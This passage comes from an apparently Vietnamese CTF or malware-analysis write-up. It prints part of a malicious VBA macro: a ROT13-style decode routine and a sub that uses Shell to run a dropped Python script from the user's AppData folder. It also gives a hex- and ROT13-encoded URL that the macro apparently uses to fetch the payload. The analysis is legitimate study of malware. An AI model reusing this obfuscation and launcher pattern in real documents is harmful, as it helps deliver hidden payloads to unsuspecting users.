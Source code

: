 ```
                l2LlS = l2LlS & Chr(Asc(Mid(k2KkS, m2MmS, 1)) - 13)
            Case Else
                l2LlS = l2LlS & Mid(k2KkS, m2MmS, 1)
        End Select
    Next m2MmS
    j2JjS = l2LlS
End Function

Sub RunPython()
    Dim PythonExe As String
    Dim PythonScript As String
    Dim Command As String
    Dim username As String
    
    username = Environ("USERNAME")
    
    PythonExe = "C:\Users\" & username & "\AppData\Local\Microsoft\WindowsApps\python3.exe"
    PythonScript = "C:\Users\" & username & "\AppData\Local\pp.py"
    Command = PythonExe & " " & PythonScript
    
    Shell Command, vbNormalFocus
End Sub

```
- Ta sẽ được đoạn code sau VBA script này khá là dễ hiểu nên ta có thể thấy là nó sẽ tải 1 file nào đó từ URL `68747470733n2s2s64726976652r676s6s676p652r636s6q2s66696p652s642s31764573414o44663731647763336267426s723238326o4p546173626p333348532s766965773s7573703q73686172696r67` nhưng nó đã bị decode bởi `hex` và `ROT13`.
![1718200179523](image/writeup/1718200179523.png)
- Dường dẫn sẽ cho ta source của file `pp.py` tuy nhiên mình ban đầu ko biết decode đoạn mã trên nên đã làm cách khác.